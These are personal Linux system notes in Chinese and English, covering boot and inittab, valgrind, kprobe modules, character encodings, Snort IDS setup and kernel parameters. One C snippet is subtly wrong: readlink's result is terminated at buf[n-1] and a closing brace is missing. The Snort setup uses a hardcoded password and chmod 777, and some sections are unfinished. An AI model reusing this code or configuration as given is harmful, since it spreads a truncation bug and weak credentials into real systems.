   initrd：一个虚拟的文件系统，里面有lib、bin、sbin、usr、proc、sys、var、dev、boot等一些目录，
   其实你会发现里面的目录有点像真的/对吧，所以我们称之为虚拟的根文件系统，作用就是将kernel和真的根文件系统
   建立关联关系，让kernel去initrd中加载根文件系统所需要的驱动程序，并以读写的方式挂载根文件系统，并让执行
   用户当中第一个进程init。 


7. init执行完毕以后会启动系统内的/etc/inittab文件，来完成系统系统的初始化工作。
   下面我们来介绍一下inittab这个配置文件内的详细内容

各个级别的定义：
默认运行级别 
0：halt                      //关机  
1: single user mode    //单用户维护模式)  
2：multi user mode, without NFS  //不支持NFS功能  
3: multi user mode, text mode     //字符界面  
4：reserved   //系统保留  
5: multi user mode, graphic mode   //图形化界面  
6: reboot   //重启 

/etc/inittab格式及语法(:) 
[选项]:[runlevel]:[行为]:[命令]
行为：  
                   initdefault：代表默认运行级别  
                   sysinit：代表系统初始化操作选项  
                   ctrlaltdel：代表重启的相关设置  
                   wait：代表上一个命令执行结束后方可执行下面的操作  
                   respawn：代表后面字段可以无限制再生(reboot)
命令选项  
               一些命令，不过通常都是脚本 

* linux启动过程中读取/etc/fstab
  读取/etc/fstab，mount文件系统的操作
  是由mount命令自己完成的。
  mount -a 选项
* 获取当前程序的绝对路径
  读取/proc/self/exe符号链接
  char buf[PATH_MAX];
  int n = readlink("/proc/self/exe", buf, PATH_MAX);
  if( n > 0 && n < PATH_MAX) {
  buf[n-1] = '\0';
* linux log
  /var/log/boot.msg
  /var/log/boot.omsg
  All the boot information and output of a Suse 9 system can be retrieved in /var/log/boot.msg. 
  Here you find the kernel messages, stored by the ksyslog daemon, the init output and the messages of the various services started at the chosen runlevel.
  This file is rewritten at every reboot, a copy of the output of the previous boot is kept in /var/log/boot.omsg
* configure
  configure --with-* 传参数
  configure内容:
  perl subst xxx.cfg
  perl subst Makefile
* 网桥转发的问题
  tony 在linux A 上建立的网桥，
  然后建立路由，再另一个机器以A为网关，测试路由。
  结果总是不通，于是他就在A上运行tcpdump，
  发现运行tcpdump时，路由居然就通了。
  后来我提意，将网卡设置成混杂模式，然后在测试，路由就是通的。
  最后发现网桥的接口就是需要在混杂模式。可能之前有人改过配置。
* valgrind
** 内存泄漏检查
#+begin_src c
#include <stdlib.h>

int main() 
{
    int *p = (int *) malloc(10*sizeof(int));
    p[10] = 1;
    return 0;
}
#+end_src
运行valgrind ./test
结果就发现了：p[10] = 1 处越界访问。



基于glib的程序，由于内存分配与回收机制的问题，valgrind会做出错误的统计。Glib提供了针对valgrind友好的内存分配手段，使用方式如下：

G_SLICE=always-malloc G_DEBUG=gc-friendly valgrind --tool=memcheck --leak-check=full --leak-resolution=high --num-callers=20--suppressions=<filename> --gen-suppressions=all --log-file=vgdump gdbus_test

参数说明：

G_SLICE=always-malloc与G_DEBUG=gc-friendly，通知glib使用valgrind友好的内存分配手段

--tool=memcheck --leak-check=full --leak-resolution=high --num-callers=20，valgrind参数

--suppressions，根据filename的内容，压制不必要的内存泄露提示，如，g_type_init里会分配一些运行期内不会释放的空间，并不能认为是内存泄露，压制的语法可以参考附件。

--log-file，可以将log打入文件中，用于后续分析

gdbus_test，要测试的程序。

** memory profile
   --tool=massif

** 使用valgrind调试fastcgi程序

   使用spawn-fcgi调起用valgrind起的fastcgi程序即可.
   spawn-fcgi -n -a 127.0.0.1 -p 9000 -- /usr/bin/valgrind --leak-check=full --log-file=/tmp/valgrind.log /path/to/prog
   调试的话,直接gdb attach上进程ID即可.

** 检测锁冲突
详细见http://valgrind.org/docs/manual/drd-manual.html

#+begin_src c
#include <pthread.h>

pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;
void* foo(void *arg)
{
    int count = 0;
    for(;;count++) {
        pthread_mutex_lock(&mutex);
        if(++count%100 == 0) {
            int i;
            int t = 0;
            for(i = 0; i < 1000; i++) {
                t += i;
            }
        }
        pthread_mutex_unlock(&mutex);
    }
    return NULL;
}

int main()
{
    pthread_t pid;
    int i;
    for(i = 0; i < 100; i++) {
        pthread_create(&pid, NULL, foo, NULL);
    }
    while(1) {
        sleep(1);
    }
}
#+end_src

#+begin_example
[ork@localhost code]$ valgrind --tool=drd --exclusive-threshold=10 ./t -i 1000
==9527== drd, a thread error detector
==9527== Copyright (C) 2006-2010, and GNU GPL'd, by Bart Van Assche.
==9527== Using Valgrind-3.6.1 and LibVEX; rerun with -h for copyright info
==9527== Command: ./t -i 1000
==9527== 
==9527== Thread 3:
==9527== Acquired at:
==9527==    at 0x400AC73: pthread_mutex_lock (drd_pthread_intercepts.c:587)
==9527==    by 0x80484FD: foo (in /home/ork/code/t)
==9527==    by 0x40095BC: vgDrd_thread_wrapper (drd_pthread_intercepts.c:281)
==9527==    by 0x43004CD2: start_thread (in /lib/libpthread-2.14.90.so)
==9527==    by 0x42F41D7D: clone (in /lib/libc-2.14.90.so)
==9527== Lock on mutex 0x80498b4 was held during 14 ms (threshold: 10 ms).
==9527==    at 0x400B508: pthread_mutex_unlock (drd_pthread_intercepts.c:640)
==9527==    by 0x8048557: foo (in /home/ork/code/t)
==9527==    by 0x40095BC: vgDrd_thread_wrapper (drd_pthread_intercepts.c:281)
==9527==    by 0x43004CD2: start_thread (in /lib/libpthread-2.14.90.so)
==9527==    by 0x42F41D7D: clone (in /lib/libc-2.14.90.so)
==9527== mutex 0x80498b4 was first observed at:
==9527==    at 0x400AC05: pthread_mutex_lock (drd_pthread_intercepts.c:584)
==9527==    by 0x80484FD: foo (in /home/ork/code/t)
==9527==    by 0x40095BC: vgDrd_thread_wrapper (drd_pthread_intercepts.c:281)
==9527==    by 0x43004CD2: start_thread (in /lib/libpthread-2.14.90.so)
==9527==    by 0x42F41D7D: clone (in /lib/libc-2.14.90.so)
==9527== 
#+end_example

* 按inode号删除文件
Linux 下有些文件直接使用 rm 无法删除, 比如该文件的文件名含有终端不能正确显示的字符.

[root@dev]# ls -i
26247183 wite.html
26247184 abc.html
26247189 test?.txt

可以通过文件 inode 删除
# find . -inum 26247189  -delete
* kprobe使用
Kprobe is a very simple method to probe the running kernel. At a fundamental level, it requires the address of a kernel function that needs to be debugged. Then, you create pre- and post-handlers that will print a debugging message when the target kernel function is called. (Actually, a handler performs any action specified in its code; in this case, it happens to be printing.) Thus, every time that function is called, you can track it.
An example

To keep things simple, I have created a small and easy-to-understand example. The target kernel function is ip_rcv(). The Kprobe example kernel module is as follows:
#+begin_src c	
#include<linux/module.h>
#include<linux/version.h>
#include<linux/kernel.h>
#include<linux/init.h>
#include<linux/kprobes.h>
 
static unsigned int counter = 0;
int Pre_Handler(struct kprobe *p, struct pt_regs *regs){
    printk("Pre_Handler: counter=%u\n",counter++);
    return 0;
}
 
void Post_Handler(struct kprobe *p, struct pt_regs *regs, unsigned long flags){
    printk("Post_Handler: counter=%u\n",counter++);
}
 
static struct kprobe kp;
 
int myinit(void)
{
    printk("module inserted\n ");
    kp.pre_handler = Pre_Handler;
    kp.post_handler = Post_Handler;
    kp.addr = (kprobe_opcode_t *)0xc071c9a9;
    register_kprobe(&kp);
    return 0;
}
 
void myexit(void)
{
    unregister_kprobe(&kp);
    printk("module removed\n ");
}
 
module_init(myinit);
module_exit(myexit);
MODULE_AUTHOR("Manoj");
MODULE_DESCRIPTION("KPROBE MODULE");
MODULE_LICENSE("GPL");
#+end_src

The makefile required to build the kernel module object file that you need to insert into the kernel is as follows:
#+begin_src c
obj-m +=mod1.o mod2.o
KDIR= /lib/modules/$(shell uname -r)/build
all:
    $(MAKE) -C $(KDIR) SUBDIRS=$(PWD) modules
clean:
       rm -rf *.o *.ko *.mod.* .c* .t*
#+end_src
Code walk-through

Here’s an explanation for the less obvious sections of the code.
struct kprobe kp;

To make use of Kprobe functionality, you must declare a variable of the structure struct kprobe, which is declared in include/linux/kprobes.h. Here’s a little extract:
#+begin_src c
struct kprobe {
    .
    .
    kprobe_opcode_t *addr;
    kprobe_pre_handler_t pre_handler;
    kprobe_post_handler_t post_handler;
}
#+end_src
The three members listed above are of interest to us. You need to assign the kernel address of the target function to the addr member; you can retrieve the address from the /proc/kallsyms file, as follows:
#+begin_src c
# cat /proc/kallsyms | grep ip_rcv
c071c3e0 t ip_rcv_finish
c071c9a9 T ip_rcv
#+end_src
Once you’ve found the address, use it in the myinit() function, as follows:
kp.addr = (kprobe_opcode_t *)0xc071c9a9;

Kprobe executes handler functions before and after the target kernel function is called, and we created the Pre_Handler() and Post_Handler() functions for this purpose. Assign these to their respective pointer members in the Kprobe struct — pre_handler and post_handler — in myinit(), as you can see. Finally, register your Kprobe with the kernel, with register_kprobe(&kp);.

Then compile the module by running make:
#+begin_example
# make
make -C /lib/modules/2.6.34/build SUBDIRS=/root/kprobe modules
make[1]: Entering directory '/root/linux-2.6.34'
  CC [M]  /root/kprobe/mod1.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/kprobe/mod1.mod.o
  LD [M]  /root/kprobe/mod1.ko
make[1]: Leaving directory '/root/linux-2.6.34'
#+end_example

When done, you are ready to test your example module by inserting it into the kernel:
# insmod mod1.ko

Confirm that the module is successfully inserted:
# lsmod | head -n 5
Module                  Size  Used by
mod1                     904  0
fuse                   46627  2
sunrpc                158985  1
xt_physdev              1355  1

Now, since you have used ip_rcv() as your target function, you need to invoke it with a simple ping:
# ping localhost

Run dmesg and find your module’s messages:
module inserted
Pre_Handler: counter=0
Post_Handler: counter=1
Pre_Handler: counter=2
Post_Handler: counter=3

As you see, you can probe a kernel address and do instrumentation without recompiling the kernel, as was required by the simple printk. When you are done with your debugging, don’t forget to remove the module:
# rmmod mod1

In the exit function, myexit(), Kprobe is unregistered by calling unregister_kprobe(&kp);.

However, Kprobe has limits to what you can do with it. In the above example, you have just printed some messages in the handlers; you cannot access the function’s arguments with Kprobe. Let’s move on to something better.
Probing with Jprobe

For those who like bonus features, Jprobe is another kind of probing technique, which can be used to access the target function’s arguments, and thus display what was passed to the function. The basics are the same as that of Kprobe, but this additional feature makes Jprobe an interesting tool.

To get the Jprobe structure details, look in the file include/linux/kprobes.h:
struct jprobe {
        struct kprobe kp;
        void *entry;    /* probe handling code to jump to */
};

As you see, it contains a struct kprobe member, plus a pointer to store the address of a handler function to jump to.
A Jprobe example
#+begin_src c	
#include<linux/module.h>
#include<linux/version.h>
#include<linux/kernel.h>
#include<linux/init.h>
#include<linux/kprobes.h>
#include<net/ip.h>
#include <linux/kallsyms.h>
 
int my_handler (struct sk_buff *skb, struct net_device *dev, struct packet_type *pt, struct net_device *orig_dev){
 
    struct iphdr *my_iph;
    u32 S_ip,D_ip;
    my_iph = ip_hdr(skb);
    S_ip = my_iph->saddr;
    D_ip = my_iph->daddr;
    printk("Source IP: \n"NIPQUAD_FMT,NIPQUAD(S_ip));
     jprobe_return();
}
 
static struct jprobe my_probe;
 
int myinit(void)
{
    int ret;
    //my_probe.kp.addr = (kprobe_opcode_t *)0xc071c9a9;
    my_probe.kp.addr = (kprobe_opcode_t *) kallsyms_lookup_name("ip_rcv");
    if (!my_probe.kp.addr) {
       printk("Couldn't find %s to plant jprobe\n", "ip_rcv");
       return -1;
    }
    my_probe.entry = (kprobe_opcode_t *)my_handler;
    if ((ret = register_jprobe(&my_probe)) < 0) {
       printk("register_jprobe failed, returned %d\n", ret);
       return -1;
    }
    return 0;
}
 
void myexit(void)
{
    unregister_jprobe(&my_probe);
    printk("module removed\n ");
}
 
module_init(myinit);
module_exit(myexit);
 
/*Kernel module Comments*/
MODULE_AUTHOR("Manoj");
MODULE_DESCRIPTION("SIMPLE MODULE");
MODULE_LICENSE("GPL");
//MODULE_LICENSE("GPL v2");
#+end_src
Code walk-through

The example is simple to understand, but let me explain things a bit. Here, in the myinit() function, you assigned the target function address to the addr member of the Kprobe member struct kp, just like for the earlier module. The main difference is that you’ve now assigned a single handler function, my_handler, to the entry member:
my_probe.entry = (kprobe_opcode_t *)my_handler;

You’ve probably already noted that the signature of the single handler function here is quite different from the Kprobe handlers. The reason is, the handler must have the same arguments as that of the kernel function you’re probing, which is once again ip_rcv():
int my_handler (struct sk_buff *skb, struct net_device *dev, struct packet_type *pt, struct net_device *orig_dev);
extern int   ip_rcv(struct sk_buff *skb, struct net_device *dev,  struct packet_type *pt, struct net_device *orig_dev);

Jprobe lets us access the arguments of a function by calling your handler with the same arguments passed to the target function. This means that when ip_rcv is called, its arguments can be accessed from your probe handler as it is able to refer to the function’s address space plus the components within that function stack.

The line my_iph = ip_hdr(skb); will extract the IP header from sk_buff. Then extract the source and destination IP addresses in dot notation form, using the NIPQUAD and NIPQUAD_FMT macros declared in include/linux/kernel.h, and print the addresses.

Now, compile your module, insert it, and check that the module has been inserted successfully, just as before. Again, to invoke ip_rcv(), run a ping and then run dmesg to check the output:
# ping www.google.com
# dmesg
Source IP: 192.168.1.1
Destination IP: 192.168.1.3
Source IP: 209.85.231.104
Destination IP: 192.168.1.3

The output shows that Jprobe lets you get the function’s argument values, which can be very handy when debugging data-dependent bugs.

修改一下
#+begin_src c	
#include<linux/module.h>
#include<linux/version.h>
#include<linux/kernel.h>
#include<linux/init.h>
#include<linux/kprobes.h>
static const char *probed_func = "ip_rcv"; 
static unsigned int counter = 0;
int Pre_Handler(struct kprobe *p, struct pt_regs *regs){
    printk("Pre_Handler: counter=%u\n",counter++);
    return 0;
}
 
void Post_Handler(struct kprobe *p, struct pt_regs *regs, unsigned long flags){
    printk("Post_Handler: counter=%u\n",counter++);
}
 
static struct kprobe kp;
 
int myinit(void)
{
    printk("module inserted\n ");
    kp.pre_handler = Pre_Handler;
    kp.post_handler = Post_Handler;
    /* 直接使用函数名 */
    kp.symbol_name = (char *)probed_func;
    register_kprobe(&kp);
    return 0;
}
 
void myexit(void)
{
    unregister_kprobe(&kp);
    printk("module removed\n ");
}
 
module_init(myinit);
module_exit(myexit);
MODULE_AUTHOR("Manoj");
MODULE_DESCRIPTION("KPROBE MODULE");
MODULE_LICENSE("GPL");
#+end_src

更详细的内容可以阅读linux-2.6.21/Documentation/kprobes.txt。

* gcc -finstrument-functions特性的应用
* 字符编码总结
1. ASCII码

我们知道，在计算机内部，所有的信息最终都表示为一个二进制的字符串。每一个二进制位（bit）有0和1两种状态，因此八个二进制位就可以组合出256种状态，这被称为一个字节（byte）。也就是说，一个字节一共可以用来表示256种不同的状态，每一个状态对应一个符号，就是256个符号，从0000000到11111111。

上个世纪60年代，美国制定了一套字符编码，对英语字符与二进制位之间的关系，做了统一规定。这被称为ASCII码，一直沿用至今。

ASCII码一共规定了128个字符的编码，比如空格"SPACE"是32（二进制00100000），大写的字母A是65（二进制01000001）。这128个符号（包括32个不能打印出来的控制符号），只占用了一个字节的后面7位，最前面的1位统一规定为0。

2、非ASCII编码

英语用128个符号编码就够了，但是用来表示其他语言，128个符号是不够的。比如，在法语中，字母上方有注音符号，它就无法用ASCII码表示。于是，一些欧洲国家就决定，利用字节中闲置的最高位编入新的符号。比如，法语中的é的编码为130（二进制10000010）。这样一来，这些欧洲国家使用的编码体系，可以表示最多256个符号。

但是，这里又出现了新的问题。不同的国家有不同的字母，因此，哪怕它们都使用256个符号的编码方式，代表的字母却不一样。比如，130在法语编码中代表了é，在希伯来语编码中却代表了字母Gimel (ג)，在俄语编码中又会代表另一个符号。但是不管怎样，所有这些编码方式中，0--127表示的符号是一样的，不一样的只是128--255的这一段。

至于亚洲国家的文字，使用的符号就更多了，汉字就多达10万左右。一个字节只能表示256种符号，肯定是不够的，就必须使用多个字节表达一个符号。比如，简体中文常见的编码方式是GB2312，使用两个字节表示一个汉字，所以理论上最多可以表示256x256=65536个符号。

中文编码的问题需要专文讨论，这篇笔记不涉及。这里只指出，虽然都是用多个字节表示一个符号，但是GB类的汉字编码与后文的Unicode和UTF-8是毫无关系的。

3.Unicode

正如上一节所说，世界上存在着多种编码方式，同一个二进制数字可以被解释成不同的符号。因此，要想打开一个文本文件，就必须知道它的编码方式，否则用错误的编码方式解读，就会出现乱码。为什么电子邮件常常出现乱码？就是因为发信人和收信人使用的编码方式不一样。

可以想象，如果有一种编码，将世界上所有的符号都纳入其中。每一个符号都给予一个独一无二的编码，那么乱码问题就会消失。这就是Unicode，就像它的名字都表示的，这是一种所有符号的编码。

Unicode当然是一个很大的集合，现在的规模可以容纳100多万个符号。每个符号的编码都不一样，比如，U+0639表示阿拉伯字母Ain，U+0041表示英语的大写字母A，U+4E25表示汉字"严"。具体的符号对应表，可以查询unicode.org，或者专门的汉字对应表。

4. Unicode的问题

需要注意的是，Unicode只是一个符号集，它只规定了符号的二进制代码，却没有规定这个二进制代码应该如何存储。

比如，汉字"严"的unicode是十六进制数4E25，转换成二进制数足足有15位（100111000100101），也就是说这个符号的表示至少需要2个字节。表示其他更大的符号，可能需要3个字节或者4个字节，甚至更多。

这里就有两个严重的问题，第一个问题是，如何才能区别Unicode和ASCII？计算机怎么知道三个字节表示一个符号，而不是分别表示三个符号呢？第二个问题是，我们已经知道，英文字母只用一个字节表示就够了，如果Unicode统一规定，每个符号用三个或四个字节表示，那么每个英文字母前都必然有二到三个字节是0，这对于存储来说是极大的浪费，文本文件的大小会因此大出二三倍，这是无法接受的。

它们造成的结果是：1）出现了Unicode的多种存储方式，也就是说有许多种不同的二进制格式，可以用来表示Unicode。2）Unicode在很长一段时间内无法推广，直到互联网的出现。

5.UTF-8

互联网的普及，强烈要求出现一种统一的编码方式。UTF-8就是在互联网上使用最广的一种Unicode的实现方式。其他实现方式还包括UTF-16（字符用两个字节或四个字节表示）和UTF-32（字符用四个字节表示），不过在互联网上基本不用。重复一遍，这里的关系是，UTF-8是Unicode的实现方式之一。

UTF-8最大的一个特点，就是它是一种变长的编码方式。它可以使用1~4个字节表示一个符号，根据不同的符号而变化字节长度。

UTF-8的编码规则很简单，只有二条：

1）对于单字节的符号，字节的第一位设为0，后面7位为这个符号的unicode码。因此对于英语字母，UTF-8编码和ASCII码是相同的。

2）对于n字节的符号（n>1），第一个字节的前n位都设为1，第n+1位设为0，后面字节的前两位一律设为10。剩下的没有提及的二进制位，全部为这个符号的unicode码。

下表总结了编码规则，字母x表示可用编码的位。

    Unicode符号范围 | UTF-8编码方式
    (十六进制) | （二进制）
    --------------------+---------------------------------------------
    0000 0000-0000 007F | 0xxxxxxx
    0000 0080-0000 07FF | 110xxxxx 10xxxxxx
    0000 0800-0000 FFFF | 1110xxxx 10xxxxxx 10xxxxxx
    0001 0000-0010 FFFF | 11110xxx 10xxxxxx 10xxxxxx 10xxxxxx

跟据上表，解读UTF-8编码非常简单。如果一个字节的第一位是0，则这个字节单独就是一个字符；如果第一位是1，则连续有多少个1，就表示当前字符占用多少个字节。

下面，还是以汉字"严"为例，演示如何实现UTF-8编码。

已知"严"的unicode是4E25（100111000100101），根据上表，可以发现4E25处在第三行的范围内（0000 0800-0000 FFFF），因此"严"的UTF-8编码需要三个字节，即格式是"1110xxxx 10xxxxxx 10xxxxxx"。然后，从"严"的最后一个二进制位开始，依次从后向前填入格式中的x，多出的位补0。这样就得到了，"严"的UTF-8编码是"11100100 10111000 10100101"，转换成十六进制就是E4B8A5。

6. Unicode与UTF-8之间的转换

通过上一节的例子，可以看到"严"的Unicode码是4E25，UTF-8编码是E4B8A5，两者是不一样的。它们之间的转换可以通过程序实现。

在Windows平台下，有一个最简单的转化方法，就是使用内置的记事本小程序Notepad.exe。打开文件后，点击"文件"菜单中的"另存为"命令，会跳出一个对话框，在最底部有一个"编码"的下拉条。

bg2007102801.jpg

里面有四个选项：ANSI，Unicode，Unicode big endian 和 UTF-8。

1）ANSI是默认的编码方式。对于英文文件是ASCII编码，对于简体中文文件是GB2312编码（只针对Windows简体中文版，如果是繁体中文版会采用Big5码）。

2）Unicode编码指的是UCS-2编码方式，即直接用两个字节存入字符的Unicode码。这个选项用的little endian格式。

3）Unicode big endian编码与上一个选项相对应。我在下一节会解释little endian和big endian的涵义。

4）UTF-8编码，也就是上一节谈到的编码方法。

选择完"编码方式"后，点击"保存"按钮，文件的编码方式就立刻转换好了。

7. Little endian和Big endian

上一节已经提到，Unicode码可以采用UCS-2格式直接存储。以汉字"严"为例，Unicode码是4E25，需要用两个字节存储，一个字节是4E，另一个字节是25。存储的时候，4E在前，25在后，就是Big endian方式；25在前，4E在后，就是Little endian方式。

这两个古怪的名称来自英国作家斯威夫特的《格列佛游记》。在该书中，小人国里爆发了内战，战争起因是人们争论，吃鸡蛋时究竟是从大头(Big-Endian)敲开还是从小头(Little-Endian)敲开。为了这件事情，前后爆发了六次战争，一个皇帝送了命，另一个皇帝丢了王位。

因此，第一个字节在前，就是"大头方式"（Big endian），第二个字节在前就是"小头方式"（Little endian）。

那么很自然的，就会出现一个问题：计算机怎么知道某一个文件到底采用哪一种方式编码？

Unicode规范中定义，每一个文件的最前面分别加入一个表示编码顺序的字符，这个字符的名字叫做"零宽度非换行空格"（ZERO WIDTH NO-BREAK SPACE），用FEFF表示。这正好是两个字节，而且FF比FE大1。

如果一个文本文件的头两个字节是FE FF，就表示该文件采用大头方式；如果头两个字节是FF FE，就表示该文件采用小头方式。

8. 实例

下面，举一个实例。

打开"记事本"程序Notepad.exe，新建一个文本文件，内容就是一个"严"字，依次采用ANSI，Unicode，Unicode big endian 和 UTF-8编码方式保存。

然后，用文本编辑软件UltraEdit中的"十六进制功能"，观察该文件的内部编码方式。

1）ANSI：文件的编码就是两个字节"D1 CF"，这正是"严"的GB2312编码，这也暗示GB2312是采用大头方式存储的。

2）Unicode：编码是四个字节"FF FE 25 4E"，其中"FF FE"表明是小头方式存储，真正的编码是4E25。

3）Unicode big endian：编码是四个字节"FE FF 4E 25"，其中"FE FF"表明是大头方式存储。

4）UTF-8：编码是六个字节"EF BB BF E4 B8 A5"，前三个字节"EF BB BF"表示这是UTF-8编码，后三个"E4B8A5"就是"严"的具体编码，它的存储顺序与编码顺序是一致的。
* 安装过程ldconfig
ld.so.conf中
动态库的查找顺序
按照目录顺序查找

我安装daq时，./configure
报错：
  ERROR!  Libpcap library version >= 1.0.0  not found.
    Get it from http://www.tcpdump.org

于是下载一个libpcap的源码包，编译./configure --prefix=/usr/lib/
结果还是不对。

ldconfig -p |grep libpcap
发现实际其作用的是 libpcap.0.9.8

发现/etc/ld.so.conf部分内容：
/usr/lib64
/usr/lib

我将/usr/lib64下的旧版本的
* snort 安装过程
* install snort
#+begin_example
# cd /tmp ; wget http://www.snort.org/downloads/1850 -O daq-1.1.1.tar.gz # tar -xzvf daq-1.1.1.tar.gz 
# cd daq-1.1.1/ 
# ./configure 
# make && make install 
# ldconfig -v 
#+end_example

- Creating snort user and tree directories:

12345678 # groupadd snort # useradd -g snort snort # mkdir /usr/local/snort # mkdir /etc/snort # mkdir /var/log/snort # mkdir /var/run/snort # chown snort:snort /var/log/snort # chown snort:snort /var/run/snort 

Installing Snort and configuring the ruleset

- Downloading and installing snort:

1234567891011 # cd /tmp ; wget http://www.snort.org/downloads/1862 -O snort-2.9.3.1.tar.gz # tar -xzvf snort-2.9.3.1.tar.gz # cd snort-2.9.3.1/ # ./configure --prefix /usr/local/snort --enable-sourcefire --enable-ipv6 # make && make install # ln -s /usr/local/snort/bin/snort /usr/bin/snort # cp /tmp/snort-2.9.3.1/etc/snort.conf /etc/snort/ # cp /tmp/snort-2.9.3.1/etc/unicode.map /etc/snort/ # cp /tmp/snort-2.9.3.1/etc/classification.config /etc/snort/ # cp -r /usr/local/snort/lib/snort_dynamicpreprocessor/ /usr/local/lib/ # cp -r /usr/local/snort/lib/snort_dynamicengine /usr/local/lib/ 

- Downloading open source ruleset from emerging:

#+begin_example
# cd /etc/snort ; wget http://rules.emergingthreats.net/open/snort-2.9.0/emerging.rules.tar.gz && wget http://rules.emergingthreats.net/open/snort-2.9.0/reference.config 
# tar -xzvf emerging.rules.tar.gz 
# touch /etc/snort/rules/white_list.rules /etc/snort/rules/black_list.rules 
# chown -R snort:snort /etc/snort/ 
#+end_example

- Edit snort configuration:

#+begin_example
# vi /etc/snort/snort.conf 

ipvar HOME_NET 192.168.1.0/24
var RULE_PATH /etc/snort/rules
var SO_RULE_PATH /etc/snort/so_rules
var PREPROC_RULE_PATH /etc/snort/preproc_rules
var WHITE_LIST_PATH /etc/snort/rules
var BLACK_LIST_PATH /etc/snort/rules
include $RULE_PATH/emerging.conf 
#+end_example

Configuring the init script for Snort

- Create sysconfig snort configuration:

#+begin_example
# vi /etc/sysconfig/snort 

#### General Configuration
INTERFACE=eth0
CONF=/etc/snort/snort.conf
USER=snort
GROUP=snort
PASS_FIRST=0
#### Logging & Alerting
LOGDIR=/var/log/snort
ALERTMODE=fast 
DUMP_APP=1 
BINARY_LOG=1 
NO_PACKET_LOG=0 
PRINT_INTERFACE=0 
#+end_example

- Adding the init script:
#+begin_example
# vi /etc/init.d/snortd 
#+end_example

- Start snort at system boot time:

#+begin_example
# chmod +x /etc/init.d/snortd 
# chkconfig --levels 235 snortd on 
#+end_example
- Starting snort:

#+begin_example
# /etc/init.d/snortd start 
#+end_example
Testing the basic functionality of port scanning detection with nmap

#+begin_example
# tail -f /var/log/snort/alert 
#+end_example
* install base and barnyard2
Install BASE dependencies
#+begin_example
# yum install -y mysql-server mysql-devel php-mysql php-adodb php-pear php-gd httpd 
# pear channel-update pear.php.net 
# pear install Numbers_Roman 
# pear install channel://pear.php.net/Image_Canvas-0.3.5 # 
# pear install channel://pear.php.net/Image_Graph-0.8.0 
#+end_example

Preparing MySQL environment
- Initializing mysql and configuring to start the daemon at boot time:
#+begin_example
# service mysql start 
# chkconfig --levels 235 mysql on 
#+end_example

- Preparing the new database for snort:
#+begin_example
# mysql -u root -p 

mysql> create database snort;
mysql> grant select,insert,update,delete,create on snort.* to snort@localhost; 
mysql> set password for snort@localhost=PASSWORD('snortpassword'); 
#+end_example

Setup snort to log out in unified2 format
#+begin_example
# vi /etc/snort/snort.conf 

output unified2: filename snort.u2, limit 128 
#+end_example

Installing barnyard2

#+begin_example
# cd /tmp ; wget http://www.securixlive.com/download/barnyard2/barnyard2-1.9.tar.gz 
# tar -xzvf barnyard2-1.9.tar.gz 
# cd barnyard2-1.9 
# ./configure --with-mysql 
# make && make install 
# cp etc/barnyard2.conf /etc/snort/ 
# mysql -u snort -psnortpassword snort < schemas/create_mysql 
# touch /etc/snort/barnyard2.waldo 
# chmod 777 /etc/snort/barnyard2.waldo 
# chown snort:snort /etc/snort/barnyard2.waldo 
#+end_example

- Edit barnyard2 configuration:
#+begin_example
# vi /etc/snort/barnyard2.conf 

config reference_file: /etc/snort/reference.config
config classification_file: /etc/snort/classification.config
config gen_file: /etc/snort/rules/gen-msg.map 
config sid_file: /etc/snort/rules/sid-msg.map 
input unified2 
config hostname: localhost 
config interface: eth0 
config alert_with_interface_name 
output database: log, mysql, user=snort password=snortpassword dbname=snort host=localhost 
#+end_example

Adapting our init script to work with barnyard2
#+begin_example
 # vi /etc/init.d/snortd 

 # /etc/init.d/snortd restart 
#+end_example
Installing BASE
#+begin_example
# cd /tmp ; wget http://sourceforge.net/projects/secureideas/files/latest/download 
# tar -xzvf base-1.4.5.tar.gz 
# cp -r base-1.4.5/ /var/www/base 
# cd /var/www/base/ 
# cp base_conf.php.dist base_conf.php 
#+end_example
- Edit BASE scripts configuration:
#+begin_example
# vi base_conf.php 

$BASE_urlpath = '/base'; 
$DBlib_path = '/usr/share/php/adodb'; 
$alert_dbname = 'snort'; 
$alert_host = 'localhost'; 
$alert_port = '3306'; 
$alert_user = 'snort'; 
$alert_password = 'snortpassword'; 
#+end_example
Configuring Apache

#+begin_example
# vi /etc/httpd/conf.d/base.conf 

Alias /base /var/www/base/
<directory "/var/www/base/"> 
AllowOverride None 
Order allow,deny 
Allow from all 
AuthName "Snort IDS"
AuthType Basic 
AuthUserFile /etc/snort/base.passwd
Require valid-user 
</directory> 
#+end_example

- Generating password file for web access for BASE:
#+begin_example
 # htpasswd -c /etc/snort/base.passwd snortadmin 
#+end_example
- Restart apache:
#+begin_example
 # service httpd restart 
#+end_example

Accessing to the BASE web environment

http://IP-WEB-SERVER/base/base_db_setup.php

and click create BASE AV

* 修改屏幕背景色

To set the "Paper Mode" use:
xcalib -red 1.7 1 64 -green 1.7 1 57 -blue 1.7 1 28 -alter
To (re)set back to "Screen Mode" use:
xcalib -clear

反转颜色
xcalib -invert -alter
* suse linux server黑屏
在黑屏时。按Ctrl+Alt+F2进入另一个shell
* 内核参数
1.内核进程通信参数

1）运行 ipcs -l 命令以列示当前的内核参数设置。
2）分析命令输出， 通过将当前值与内核参数需求 (Linux) 中对版本 9.5 修订包 6 或更高版本修订包的增强最低设置进行比较，从而确定您是否必须更改内核设置。 下列文本是 ipcs 命令输出的示例，注释添加在 // 后面以显示参数名称：

      # ipcs -l

      ------ Shared Memory Limits --------

      max number of segments = 4096               // SHMMNI 
      max seg size (kbytes) = 32768               // SHMMAX
      max total shared memory (kbytes) = 8388608  // SHMALL
      min seg size (bytes) = 1

 

      ------ Semaphore Limits --------
      max number of arrays = 1024                 // SEMMNI
      max semaphores per array = 250              // SEMMSL
      max semaphores system wide = 256000         // SEMMNS
      max ops per semop call = 32                 // SEMOPM
      semaphore max value = 32767

 

      ------ Messages: Limits --------
      max queues system wide = 1024               // MSGMNI
      max size of message (bytes) = 65536         // MSGMAX
      default max size of queue (bytes) = 65536    // MSGMNB
3）通过编辑 /etc/sysctl.conf 文件来修改您必须调整的内核参数。下列各行是该文件中应包含的内容的示例：
# 具有 16GB RAM 的计算机的示例：
kernel.shmmni=4096
kernel.shmmax=17179869184
kernel.shmall=8388608

#kernel.sem=<SEMMSL> <SEMMNS> <SEMOPM> <SEMMNI>
kernel.sem=250 256000 32 4096
kernel.msgmni=16384
kernel.msgmax=65536
kernel.msgmnb=65536


4）运行 sysctl 时附带 -p 参数

 
2.内核网络参数


